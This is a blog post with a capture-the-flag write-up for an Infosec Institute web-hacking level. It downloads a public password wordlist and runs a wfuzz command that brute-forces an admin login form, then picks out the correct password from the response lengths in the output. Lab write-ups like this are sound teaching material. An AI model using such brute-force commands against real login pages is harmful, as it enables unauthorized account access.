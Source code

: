 ```yaml
---
layout: post
title: Infosec Institute CTF2 Practical Web Hacking Level 12
category: Web
tags: infosec
---
```


**Vulnerability** Dictionary Attack
**Description:**

![screen]({{site.url}}/assets/Screen Shot 2015-07-17 at 7.10.58 PM.png)

## Write-up

For almost all levels I will be using Burpsuite. Burpsuite is an interception proxy that lets us modify the HTTP request
 / response by intercepting the data between the browser and the web server.
 
Let's be good boys and listen to the web page talking! Googling "filetype:lst password" takes us to
http://www.openwall.com/passwords/wordlists/password-2011.lst  
Download the password list in our local directory.

{% highlight bash  %}
/infosec2$ wget http://www.openwall.com/passwords/wordlists/password-2011.lst
--2015-07-17 19:14:21--  http://www.openwall.com/passwords/wordlists/password-2011.lst
Resolving www.openwall.com (www.openwall.com)... 195.42.179.202
Connecting to www.openwall.com (www.openwall.com)|195.42.179.202|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 26215 (26K) [text/plain]
Saving to: `password-2011.lst'

100%[==========================================================================================>] 26,215      46.7K/s   in 0.5s    

2015-07-17 19:14:23 (46.7 KB/s) - `password-2011.lst' saved [26215/26215]

/infosec2$ 
{% endhighlight %}

This time we are not going to use Burpsuite, because Burpsuite's Intruder feature is being throttled in the free edition of Burp.
Instead we are going to use a tool called wfuzz. The syntax is as follows:

{% highlight bash  %}
/infosec2$ wfuzz -c -z file,password-2011.lst -d "username=admin&password=FUZZ&logIn=Login" http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php
{% endhighlight %}

'-c' is used for color output, '-z' for payload type that's why it's follow by "file" and the name of the file "password-2011.lst"
that we just downloaded. '-d' is for POST data, we can get that either by looking at the request with Burp or the source code of the
submission form. And at the end we need to send our request to the correct URL and php page intended for the form.

Wfuzz is going to start using each of the words in our dictionary file in place of the keyword 'FUZZ' which we placed
in the POST data of the request.

{% highlight bash  %}
/infosec2# wfuzz -c -z file,password-2011.lst -d "username=admin&password=FUZZ&logIn=Login" http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php

********************************************************
* Wfuzz  2.0 - The Web Bruteforcer                     *
********************************************************

Target: http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php
Payload type: file,password-2011.lst

Total requests: 3557
==================================================================
ID	Response   Lines      Word         Chars          Request    
==================================================================

00001:  C=200    138 L	     309 W	   4880 Ch	  "en compiled by Solar Designer of Openwall Project,"
00002:  C=200    138 L	     309 W	   4880 Ch	  " - 1234567890"
00003:  C=200    138 L	     309 W	   4880 Ch	  " - #!comment:"
00004:  C=200    138 L	     309 W	   4880 Ch	  " - password"
00005:  C=200    138 L	     309 W	   4880 Ch	  " - #!comment: http://www.openwall.com/wordlists/"
00006:  C=200    138 L	     309 W	   4880 Ch	  "990's, sorted for decreasing number of occurrences"
00007:  C=200    138 L	     309 W	   4880 Ch	  " - #!comment:"
00008:  C=200    138 L	     309 W	   4880 Ch	  " - 12345678"
00009:  C=200    138 L	     309 W	   4880 Ch	  " - 123456"
00010:  C=200    138 L	     309 W	   4880 Ch	  " - abc123"
**** omitted for space ****
00282:  C=200    138 L	     309 W	   4880 Ch	  " - peace"
00283:  C=200    138 L	     309 W	   4880 Ch	  " - peanut"
00284:  C=200    138 L	     309 W	   4880 Ch	  " - phantom"
00285:  C=200    143 L	     284 W	   4731 Ch	  " - princess"
00286:  C=200    138 L	     309 W	   4880 Ch	  " - popcorn"
00287:  C=200    138 L	     309 W	   4880 Ch	  " - pumpkin"
00288:  C=200    138 L	     309 W	   4880 Ch	  " - purple"
00289:  C=200    138 L	     309 W	   4880 Ch	  " - psycho"
{% endhighlight %}

We can see that even incorrect passwords return 200OK HTTP response code, so the trick here would be to look for
returned pages with unusual character count. If you notice each of the passwords used returns a page with character count of
4880, except password "princess" which returned a page with 4731 characters, so let's try that !

![screen3]({{site.url}}/assets/Screen Shot 2015-07-17 at 7.27.34 PM.png)

## Links

* <http://ctf.infosecinstitute.com/ctf2/exercises/ex12.php>

